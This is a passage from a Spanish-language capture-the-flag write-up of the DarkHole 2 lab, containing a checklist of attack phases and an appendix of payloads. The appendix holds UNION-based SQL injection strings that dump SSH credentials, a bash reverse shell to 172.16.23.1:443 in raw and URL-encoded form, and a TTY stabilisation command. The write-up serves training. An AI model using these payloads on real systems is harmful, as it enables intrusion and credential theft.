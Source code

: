 Checklist de flujo:
- [x] Reconocimiento de red
- [x] Escaneo de puertos
- [x] Enumeración web
- [x] Análisis de repositorio Git
- [x] Explotación de credenciales
- [x] Inyección SQL manual
- [x] Obtención de shell SSH
- [x] Enumeración interna
- [x] Identificación de servicios locales
- [x] Reverse shell lateral
- [x] Escalada a root via sudo
- [x] Captura de flags
- [x] Documentación y mitigación

---

## Anexos

### Payloads SQLi Utilizados

Enumeración de columnas:
2'+order+by+6--+-

Union select básico:
2'+union+select+1,2,3,4,5,6--+-

Extracción de bases de datos:
2'+union+select+1,2,group_concat(schema_name),4,5,6+from+information_schema.schemata--+-

Extracción de tablas:
2'+union+select+1,2,group_concat(table_name),4,5,6+from+information_schema.tables+where+table_schema='darkhole_2'--+-

Extracción de columnas:
2'+union+select+1,2,group_concat(column_name),4,5,6+from+information_schema.columns+where+table_schema='darkhole_2'+and+table_name='ssh'--+-

Dump de credenciales:
2'+union+select+1,2,group_concat(id,0x3a,user,0x3a,pass),4,5,6+from+darkhole_2.ssh--+-

### Reverse Shell Payload

Comando original:
bash -c 'bash -i >& /dev/tcp/172.16.23.1/443 0>&1'

URL encoded:
bash%20-c%20'bash%20-i%20%3E%26%20/dev/tcp/172.16.23.1/443%200%3E%261'

### Comandos de Estabilización TTY

/usr/bin/script -qc /bin/bash /dev/null

Luego CTRL+Z
